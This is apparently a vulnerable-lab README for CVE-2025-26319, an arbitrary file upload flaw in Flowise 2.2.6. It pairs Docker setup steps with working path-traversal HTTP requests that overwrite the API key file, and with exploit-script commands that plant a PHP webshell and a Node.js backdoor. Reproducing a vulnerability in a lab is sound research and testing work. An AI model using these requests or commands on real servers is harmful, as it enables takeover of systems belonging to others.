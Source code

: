 #  CVE-2025-26319 
FlowiseAI Flowise v2.2.6 was discovered to contain an arbitrary file upload vulnerability in `/api/v1/attachments`.

## Metrics
CVSSv2: N\A 
CVSSv3: 9.8 CRITICAL 

## Notes
This Docker image build and the original build have different paths. Keep that in mind.

## Vulnerability Environment
### Run VulnForge build
Build and run:
```bash
docker compose build
docker compose up -d
```
Stop Environment and remove network:
```bash
docker compose down
```

### Original image
#### Build original image
```shell
git clone https://github.com/FlowiseAI/Flowise.git
cd Flowise ; cd docker      
sed -i 's/RUN npm install -g flowise/RUN npm install -g flowise@2.2.6/' Dockerfile     
docker build --no-cache -t flowise .
docker run -d --name flowise -p 3000:3000 flowise
```
```shell
# Stop image
docker stop flowise
```

## Detection and exploitation example
1. Run Environment
Open http://localhost:3000 or http://your_ip:3000 and login vulnforge/vulnforge (not accepteble for original image).

### Manualy
#### Request
Request if flowise installed as node module (like in this image):

```http
POST /api/v1/attachments/..%2f..%2f..%2f..%2f..%2fusr%2flocal%2flib%2fnode_modules/flowise HTTP/1.1
Host: 192.168.93.63:3000
Content-Length: 547
Content-Type: multipart/form-data ; boundary=----WebKitFormBoundaryEXu6ASxTCbiyFYrx

------WebKitFormBoundaryEXu6ASxTCbiyFYrx
Content-Disposition: form-data; name="files"; filename="api.json"
Content-Type: text/plain

[
    {
        "keyName": "VunlForgeKey",
        "apiKey": "ByzotchjMI6lnduyKXXuvnm04Wg_11111",
        "apiSecret": "2811c408475543a7b3448b1e8b1f02ff99a4f0dc9489983a3cd5e16f9679ac736450b8c5eca5de8c59ce739a6b4a43cbb30ce9343339e62ea40ff890607b2d7d.b011c5b1163186d2",
        "createdAt": "04-Apr-25",
        "id": "71406cde62d4e6ef384a2caebc1086fc"
    }
]
------WebKitFormBoundaryEXu6ASxTCbiyFYrx--
```

Request for default installation:
```http
POST /api/v1/attachments/..%2f..%2f..%2f..%2f..%2froot%2f/.flowise HTTP/1.1
Host: 192.168.93.63:3000
Content-Length: 530
Content-Type: multipart/form-data ; boundary=----WebKitFormBoundaryEXu6ASxTCbiyFYrx

------WebKitFormBoundaryEXu6ASxTCbiyFYrx
Content-Disposition: form-data; name="files"; filename="api.json"
Content-Type: text/plain

[
    {
        "keyName": "VunlForgeKey",
        "apiKey": "AyzotchjMI6lnduyKXXuvnm04Wg_11111",
        "apiSecret": "2811c408475543a7b3448b1e8b1f02ff99a4f0dc9489983a3cd5e16f9679ac736450b8c5eca5de8c59ce739a6b4a43cbb30ce9343339e62ea40ff890607b2d7d.b011c5b1163186d2",
        "createdAt": "04-Apr-25",
        "id": "71406cde62d4e6ef384a2caebc1086fc"
    }
]
------WebKitFormBoundaryEXu6ASxTCbiyFYrx--
```

P.S: If you check on other “in the wild” installations, check the path in the POST header. They are different.

#### Response
The answer is the same. So will be the `HTTP/1.1 200 OK` response if the file is just written to an arbitrary location, but does not overwrite `api.json`.
```http
HTTP/1.1 200 OK
Vary: Origin
Content-Type: application/json; charset=utf-8
Content-Length: 308
ETag: W/"134-QNfC8lr7aR9w8d2np0Y5RTFBYmw"
Date: Fri, 04 Apr 2025 15:02:08 GMT
Connection: keep-alive
Keep-Alive: timeout=5

[{
    "name": "api.json",
    "mimeType": "text/plain",
    "size": 366,
    "content": "VunlForgeKey\nByzotchjMI6lnduyKXXuvnm04Wg_11111\n2811c408475543a7b3448b1e8b1f02ff99a4f0dc9489983a3cd5e16f9679ac736450b8c5eca5de8c59ce739a6b4a43cbb30ce9343339e62ea40ff890607b2d7d.b011c5b1163186d2\n04-Apr-25\n71406cde62d4e6ef384a2caebc1086fc"
}]
```

### Exploit
Exploit originaly made [by YuoLuo](https://github.com/YuoLuo/CVE-2025-26319). This is for example, it doesn't work in this build (unless rewrite the exploit). But you can use original image.

#### Basic file upload 
```shell
python3 CVE-2025-26319.py -u http://target:3000 -f local_file.txt -d /path/on/server/file.txt 
```
Upload configuration file

#### Modify API key configuration
```shell
python3 CVE-2025-26319.py -u http://target:3000 -f new_api.json -d /root/.flowise/api.json
```

Automatically generate and upload Webshell

#### Upload PHP Webshell
```shell
python3 CVE-2025-26319.py -u http://target:3000 --generate-webshell php --webshell-path /var/www/html/shell.php
```

#### Uploading a Node.js backdoor
```shell
python3 CVE-2025-26319.py -u http://target:3000 --generate-webshell nodejs --webshell-path /tmp/backdoor.js
```


## Exploits and PoCs
[https://github.com/YuoLuo/CVE-2025-26319](https://github.com/YuoLuo/CVE-2025-26319)

## Nuclei Template

## CTF Rooms

## References
[NIST: CVE-2025-26319](https://nvd.nist.gov/vuln/detail/CVE-2025-26319)   
[Medium: The Burn Notice, Part 2.5/5 | Flowise Pre-Auth Arbitrary File Upload (CVE-2025–26319)](https://medium.com/@attias.dor/the-burn-notice-part-2-5-5-flowise-pre-auth-arbitrary-file-upload-cve-2025-26319-0d4194a34183)  
[Github: Flowise 2.2.6](https://github.com/FlowiseAI/Flowise/releases/tag/flowise%402.2.6)  